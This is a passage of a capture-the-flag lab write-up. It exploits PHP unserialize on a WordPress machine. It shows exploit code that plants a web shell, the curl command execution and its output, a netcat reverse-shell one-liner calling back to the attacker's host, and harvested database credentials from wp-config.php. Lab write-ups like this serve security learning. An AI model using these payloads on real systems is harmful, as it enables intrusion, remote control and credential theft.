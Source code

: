 ```php
<?php 

class DatabaseExport
{
    public $user_file = 'shell.php';
    public $data = '<?php system($_GET["cmd"]); ?>';
    
    public function update_db()
    {
        echo '[+] Grabbing users from text file <br>';
        $this-> data = 'Success';
    }
    
    public function __destruct()
    {
        file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
        echo '[] Database updated <br>';
        //    echo 'Gotta get this working properly...';
    }
}

$url = 'http://10.10.10.223/sator.php?arepo=';
$arepo = $url . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$arepo");
print "$response";
```

After its execution, I was able to issue the `id` command by using curl as we can see below.

```bash
$ php exploit.php
[] Database updated <br>[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>   

$ curl -L http://10.10.10.223/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we had a confirmed RCE, make the call to obtain a reverse shell as the following example:

```bash
curl -G --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f" http://10.10.10.223/shell.php
```

## User Flag

Accessing the box, once we already knew that at least one WordPress instance was present, searched for the `wp-config.php` file where I got the credentials for user **neil**

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
